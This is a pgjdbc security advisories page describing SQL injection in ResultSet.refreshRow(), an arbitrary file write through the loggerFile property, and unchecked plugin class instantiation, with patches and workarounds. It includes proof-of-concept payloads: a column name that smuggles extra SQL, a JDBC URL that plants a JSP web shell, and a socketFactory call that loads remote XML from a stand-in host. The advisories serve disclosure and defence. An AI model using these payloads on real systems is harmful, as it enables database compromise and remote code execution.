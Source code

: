 ```yaml
---
title: "Security Advisories"
date: 2022-06-19T22:46:55+05:30
draft: false
---
```


### SQL Injection in ResultSet.refreshRow() with malicious column names

#### Impact

*What kind of vulnerability is it? Who is impacted?*

The PGJDBC implementation of the `java.sql.ResultRow.refreshRow()` method is not performing escaping of column names so a malicious column name that contains a statement terminator, e.g. ; , could lead to SQL injection. This could lead to executing additional SQL commands as the application's JDBC user.

User applications that do not invoke the `ResultSet.refreshRow()` method are not impacted.

User application that do invoke that method are impacted if the underlying database that they are querying via their JDBC application may be under the control of an attacker. The attack requires the attacker to trick the user into executing SQL against a table name who's column names would contain the malicious SQL and subsequently invoke the `refreshRow()` method on the ResultSet.

For example:

```sql
CREATE TABLE refresh_row_example (
  id     int PRIMARY KEY,
  "1 FROM refresh_row_example; SELECT pg_sleep(10); SELECT * " int
);
```

This example has a table with two columns. The name of the second column is crafted to contain a statement terminator followed by additional SQL. Invoking the `ResultSet.refreshRow()` on a ResultSet that queried this table, e.g. `SELECT * FROM refresh_row` , would cause the additional SQL commands such as the `SELECT pg_sleep(10)` invocation to be executed.

As the multi statement command would contain multiple results, it would not be possible for the attacker to get data directly out of this approach as the `ResultSet.refreshRow()` method would throw an exception. However, the attacker could execute any arbitrary SQL including inserting the data into another table that could then be read or any other DML / DDL statement.

Note that the application's JDBC user and the schema owner need not be the same. A JDBC application that executes as a privileged user querying database schemas owned by potentially malicious less-privileged users would be vulnerable. In that situation it may be possible for the malicious user to craft a schema that causes the application to execute commands as the privileged user.

#### Patches

*Has the problem been patched? What versions should users upgrade to?*

Yes, versions 42.2.26 and 42.4.1 have been released with a fix.

The 42.2.26 release was provided to support older clients that are still running JDK 6 or JDK 7 that cannot upgrade to the 42.4.x release line (which requires JDK 8+).

We are not releasing a version for the 43.3.x release line and users are advised to upgrade to the 42.4.1 release to get the fix.

#### Workarounds

*Is there a way for users to fix or remediate the vulnerability without upgrading?*

Check that you are not using the `ResultSet.refreshRow()` method.

If you are, ensure that the code that executes that method does not connect to a database that is controlled by an unauthenticated or malicious user. If your application only connects to its own database with a fixed schema with no DDL permissions, then you will not be affected by this vulnerability as it requires a maliciously crafted schema.

### Arbitrary File Write Vulnerability

#### Overview

The connection properties for configuring a pgjdbc connection are not meant to be exposed to an unauthenticated attacker. While allowing an attacker to specify arbitrary connection properties could lead to a compromise of a system, that's a defect of an application that allows unauthenticated attackers that level of control.

It's not the job of the pgjdbc driver to decide whether a given log file location is acceptable. End user applications that use the pgjdbc driver must ensure that filenames are valid and restrict unauthenticated attackers from being able to supply arbitrary values. That's not specific to the pgjdbc driver either, it would be true for any library that can write to the application's local file system.

While we do not consider this a security issue with the driver, we have decided to remove the loggerFile and loggerLevel connection properties in the next release of the driver. Removal of those properties does not make exposing the JDBC URL or connection properties to an attacker safe and we continue to suggest that applications do not allow untrusted users to specify arbitrary connection properties. We are removing them to prevent misuse and their functionality can be delegated to java.util.logging.

If you identify an application that allows remote users to specify a complete JDBC URL or properties without validating it's contents, we encourage you to notify the application owner as that may be a security defect in that specific application.

#### Impact

It is possible to specify an arbitrary filename in the loggerFileName connection parameter
 `"jdbc:postgresql://localhost:5432/test?user=test&password=test&loggerLevel=DEBUG&loggerFile=./blah.jsp&<%Runtime.getRuntime().exec(request.getParameter("i"));%>"`

This creates a valid JSP file which could lead to a Remote Code Execution

#### Patches

As of version 42.3.3 loggerFile is ignored by the driver.

#### Workarounds

upgrade to latest version.

Reported by Allan Lou v3ged0ge@gmail.com

### Unchecked Class Instantiation when providing Plugin Classes

#### Impact

pgjdbc instantiates plugin instances based on class names provided via `authenticationPluginClassName`, `sslhostnameverifier`, `socketFactory`, `sslfactory`, `sslpasswordcallback` connection properties.

However, the driver did not verify if the class implements the expected interface before instantiating the class.

Here's an example attack using an out-of-the-box class from Spring Framework:

```java
DriverManager.getConnection("jdbc:postgresql://node1/test?socketFactory=org.springframework.context.support. ClassPathXmlApplicationContext&socketFactoryArg=http://target/exp.xml");
```

The first impacted version is REL9.4.1208 (it introduced `socketFactory` connection property)
